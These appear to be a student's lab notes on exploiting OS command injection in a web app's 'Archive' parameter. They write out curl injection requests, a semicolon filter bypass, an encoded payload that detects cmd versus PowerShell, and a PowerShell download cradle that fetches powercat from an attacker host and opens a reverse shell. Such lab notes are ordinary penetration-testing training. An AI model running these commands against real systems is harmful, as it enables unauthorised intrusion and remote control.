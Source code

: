 If we can input some sort of command line instruction (such as `git clone`), then we can guess that may the OS on server side is executing that command on their side. Using Burp we can analyse and confirm this:

![[Pasted image 20250703173609.png]]
*It uses the archive parameter to parse the request*

Thus we can do `curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive` to inject our own command. We would also need to find out which folder to upload (also from Burp).

If command fails we can try to bypass, KNOWING what commands are allowed so instead we can do `curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive`, using a semicolon as command separator, to see if it's executed. 

On Windows Machine, we can use this `
`(dir 2>&1 *`\``|echo CMD);&<# rem #>echo PowerShell` and it will output whether we are working with pwsh or cmd. Curl command ends up being `curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive`

`cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
	Windows' Netcat to generate a reverse shell. Start a python server to make this script available.

Within the script `IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell` is the actual reverse shell command, with the first line being a powershell download cradle?
	**-c** to specify where to connect, **-p** for the port, and **-e** for executing a program.
*Reverse shell should be obtained after we listen and curl the .ps1 script*

